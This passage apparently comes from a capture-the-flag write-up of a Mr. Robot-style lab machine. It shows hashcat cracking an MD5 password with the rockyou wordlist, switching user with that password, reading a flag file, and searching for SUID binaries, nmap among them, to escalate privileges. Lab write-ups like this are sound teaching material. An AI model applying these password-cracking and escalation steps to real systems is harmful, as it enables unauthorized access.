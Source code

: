 ```

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Sep 29 22:09:23 2020 (0 secs)
Time.Estimated...: Tue Sep 29 22:09:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   123.2 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1

Started: Tue Sep 29 22:09:15 2020
Stopped: Tue Sep 29 22:09:24 2020
```

`abcdefghijklmnopqrstuvwxyz`

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

`822c73956184f694993bede3eb39f959`

```
find / -perm -u=s -type f 2> /dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
